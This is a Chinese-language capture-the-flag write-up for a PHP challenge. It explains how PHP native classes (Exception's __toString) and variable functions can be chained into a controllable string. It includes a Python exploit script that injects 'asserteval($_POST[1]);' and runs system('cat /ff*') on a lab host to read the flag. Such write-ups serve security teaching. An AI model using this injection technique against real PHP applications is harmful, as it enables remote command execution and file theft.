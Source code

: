 # 天狗的PHP

## 出题意图

这题就是很经典的PHP原生类和可变函数的利用。

其实更像是PHP信息收集的题。

## 解题思路

首先，我们很明确的是这题需要能够被我们控制的字符串。

题目中没有导入其他的类，那么可以使用的就是PHP的原生类了。

PHP原生类博客：https://www.anquanke.com/post/id/264823#h3-2

可以发现，我们能够利用Exception类，可以利用__toString()和getMessage()方法

**需要注意的是，__toString方法的结果依赖于PHP的版本，请注意本题PHP版本。**

exp如下：

```python
import requests

params = {
    "a" : "Exception",
    "b" : "asserteval($_POST[1]);",
    "c" : "__toString",
    "d" : "36",
    "e" : "6",
    "f" : "42",
    "g" : "16"
}

data = {
    "1":"system('cat /ff*');"
}

url = "http://10.10.175.247:33428"

r  = requests.post(url = url,
                   params=params,
                   data=data)

print(r.text)
```

hackerbar使用截图

![image-20230507150147834](hackbar.png)

